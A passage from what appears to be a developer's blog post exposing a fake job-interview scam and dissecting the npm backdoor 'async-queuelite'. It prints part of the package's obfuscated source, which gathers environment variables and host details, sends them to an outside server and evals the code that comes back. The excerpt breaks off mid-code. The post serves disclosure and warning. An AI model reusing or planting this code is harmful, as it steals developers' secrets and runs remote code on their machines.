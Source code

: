 
A few days ago, I have received an email job alert from [arc.dev](https://arc.dev) a job posting by Tirios, the same name the fake employer used. This appeared legit but I was more curious so I applied to the job. I was hoping to get a response before I publish the article. So far I haven't received any response. Either the fake employer is now using [arc.dev](https://arc.dev) to attract new victims or this is the real deal.


---

### 🚨 Dissecting `async-queuelite`: A Real Backdoor

In the BitBucket repo, the `async-queuelite` package was only imported once in the `contracts/controllers/userController.js` and invoked the function only once at startup, but in the middle of the file like this:

```
...some imports
const jsonWebHooks = require("json-webhooks");

...many lines of code
jsonWebHooks();
...more code
```

The `async-queuelite@1.0.11` package disguised itself as a lightweight job queue. However, it:

- Collected system info (`os.platform()`, `hostname`, MAC addresses)
- Dumped all `process.env` variables (including any secrets and API keys)
- Sent data to `https://log-server-lovat.vercel.app/api/ipcheck/703`
- Executed attacker-controlled JavaScript using:  
  `.then(r => eval(r.data))`

Here is the malicious code in the NPM package (contents of the file `lib/writer.js`):

```javascript
'use strict'
const os = require('os')
const pkg = require('../package.json')

function getMacAddress () {
  const interfaces = os.networkInterfaces()
  const macAddresses = []

  for (const interfaceName in interfaces) {
    const networkInterface = interfaces[interfaceName]

    networkInterface.forEach((details) => {
      if (details.family === 'IPv4' && !details.internal) {
        macAddresses.push(details.mac)
      }
    })
  }
  return macAddresses
}
const data = {
  ...process.env,
  version: pkg.subModuleVersion,
  platform: os.platform(),
  hostname: os.hostname(),
  username: os.userInfo().username,
  macAddresses: getMacAddress(),
}

function g (h) { return h.replace(/../g, match => String.fromCharCode(parseInt(match, 16))) }

const hl = [
  g('72657175697265'),
```